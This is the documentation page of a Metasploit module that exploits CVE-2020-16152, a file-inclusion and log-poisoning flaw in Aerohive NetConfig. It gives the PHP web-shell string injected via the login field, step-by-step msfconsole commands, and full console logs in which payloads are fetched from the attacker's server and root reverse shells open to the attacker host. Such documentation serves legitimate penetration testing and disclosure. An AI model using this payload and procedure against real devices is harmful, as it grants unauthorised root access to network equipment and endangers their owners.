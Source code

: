 ## Vulnerable Application
This module exploits LFI and log poisoning vulnerabilities (CVE-2020-16152) in Aerohive NetConfig, version 10.0r8a build-242466 and older
in order to achieve unauthenticated remote code execution as the root user.

NetConfig is the Aerohive/Extreme Networks HiveOS administrative webinterface. Vulnerable Aerohive NetConfig versions allow for LFI
because they rely on a version of PHP 5 that is vulnerable to string truncation attacks.

The module's `check` method attempts to obtain the Aerohive NetConfig version via a simple HTTP GET request to `/index.php5`.

If the target seems vulnerable based on the version, the module attempts to poison the `/tmp/messages` log file
via the POST parameter `userName` in an intentially failed login attempt to `/login.php5`.
The value of `userName` is set to a payload according to this format: `"<?php system($_POST['cmd']);?>"`.
Because failed login attempts are logged to `/tmp/messages` and include the submitted username,
the `/tmp/messages` log can be effectively poisoned in this manner.

Next, the module attempts to run code via `/tmp/messages` by means of an HTTP POST request to `action.php5`.
This request includes two POST parameters:
1. The `_page` parameter, which is the one vulnerable to LFI via path truncation.
2. The parameter that is used to execute commands via `/tmp/messages`.
In our example the name would be `cmd`, but the module sets this to an aribtrary value.

Aerohive runs an ARM-based version of Linux. The module supports two targets, a `Linux` target for `ARCH_ARMLE` payloads
and a `CMD` starget for `cmd/unix` payloads.
It should be noted that for the `CMD` target, the only reliable payload seems to be `cmd/unix/reverse_openssl`.

The [original writeup](https://github.com/eriknl/CVE-2020-16152) notes that it is unclear if/when this issue was patched,
so versions after 10.0r8a may still be vulnerable.
Disclosure to the vendor occurred in early 2020 and while the vendor confirmed the problem,
they failed to inform the researcher about the timeline for fixing it.
As a result, the researcher ultimately released the details and PoC on their own
in September of last year. As of now, the CVE status is still `RESERVED`.

This module has been successfully tested against Aerohive NetConfig version 10.0r7a.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to Aerohive NetConfig. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### Aerohive NetConfig 10.0r7a - Linux target
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.39     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki
                                         /Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address o
                                         n the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to Aerohive NetConfig
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.66     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse TCP handler on 192.168.1.66:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 10.0r7a
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Using URL: http://0.0.0.0:8080/PVqYZ0a
[*] Local IP: http://192.168.1.66:8080/PVqYZ0a
[*] Attempting to execute the payload
[!] In case of successful exploitation, this module requires manual cleanup of the log file at /tmp/messages
[!] Deleting this file may break the application, so it's advised to manually remove the line containing the poison command:
        <?php system($_POST['PD3C']);?>
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Client 192.168.1.39 (curl/7.50.1) requested /PVqYZ0a
[*] Sending payload to 192.168.1.39 (curl/7.50.1)
[*] Sending stage (902256 bytes) to 192.168.1.39
[*] Meterpreter session 1 opened (192.168.1.66:4444 -> 192.168.1.39:39216) at 2021-09-23 22:07:56 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root @ AH-5fb7c0 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.1.39
OS           :  (Linux 3.16.36)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```

### Aerohive NetConfig 10.0r7a - CMD target
```
msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > show options

Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.39     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to Aerohive NetConfig
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.66     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   CMD


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > exploit

[*] Started reverse double SSL handler on 192.168.1.66:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 10.0r7a
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Attempting to execute the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[!] In case of successful exploitation, this module requires manual cleanup of the log file at /tmp/messages
[!] Deleting this file may break the application, so it's advised to manually remove the line containing the poison command:
        <?php system($_POST['TEVwXm']);?>
[*] Command: echo rVKzZFZ3xozDeyYd;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "rVKzZFZ3xozDeyYd\n"
[*] Matching...
[*] A is input...
[*] Command shell session 8 opened (192.168.1.66:4444 -> 192.168.1.39:39029) at 2021-09-22 23:07:51 +0000

id
uid=0(root) gid=0(root)
```
